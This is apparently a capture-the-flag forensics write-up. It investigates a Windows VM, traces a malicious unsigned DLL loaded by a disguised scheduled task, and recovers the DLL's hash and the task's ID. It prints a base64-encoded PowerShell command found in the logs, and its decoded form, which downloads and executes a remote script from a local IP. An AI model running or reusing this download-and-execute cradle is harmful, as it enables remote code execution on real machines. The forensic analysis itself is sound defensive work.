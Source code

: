 This challenge was divided into 2 parts

## 1

We need to find the hash of a malicious binary present on the VM. First, we need to unlock the VM because we don't have the password!

To do this, I use the tool `Passcape rest.iso`, which I load into a virtual disk and boot from in order to find an admin account where I can change the password. I find the account **john** and assign it the password `forensic`.

The first log analyses via `eventvwr` prove to be conclusive in the tab: **Application and Services Logs => PowerShell**:

```
powershell.exe -nop -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgA1ADYALgAxAC8AZQB4AHAAbABvAGkAdAAuAHAAcwAxACcAKQA=
```

Strange... if we decode it:

```
IEX(New-Object Net.WebClient).downloadString('http://192.168.56.1/exploit.ps1')
```

So an exploit is downloaded via PowerShell. We therefore need to find the binary that performs the download via PowerShell (potentially an unsigned binary / suspicious name, etc.).

To do this, I use **Process Monitor** with boot logging enabled (since it's launched at startup), where I configure an advanced filter:

* Operation => Process Create
* Path => contains "powershell.exe"

Then we restart. I accept to open the boot log when I relaunch Process Monitor and observe that the parent of `powershell.exe` is `taskhostw.exe` (so a scheduled task), and if we look at the DLL imports:

![alt text](note/ctf/Midnight_2025/asset/blackdoor1.png)

We find a DLL not signed by Windows: `mscms2.dll`.

We check its hash with VirusTotal: `04c740418760eb3cdd738a4480337e03`.

First part done!

## 2

We saw that it was a scheduled task, and we need its ID.

First, I launch **Autoruns** and go to the **Scheduled Tasks** section:

![alt text](note/ctf/Midnight_2025/asset/blackdoor2.png)

I find the task `Calibration Loader`, which is suspicious and linked to the DLL. I retrieve all the info in XML format via a PowerShell command:

```powershell
Get-ScheduledTask -TaskPath "\Microsoft\Windows\WindowsColorSystem" -TaskName "Calibration Loader" | Export-ScheduledTask
```

And find its ID: `<ClassId>{B210D694-C8DF-490D-9576-9E20CDBC20BD}</ClassId>`

Which corresponds to the end of the challenge.
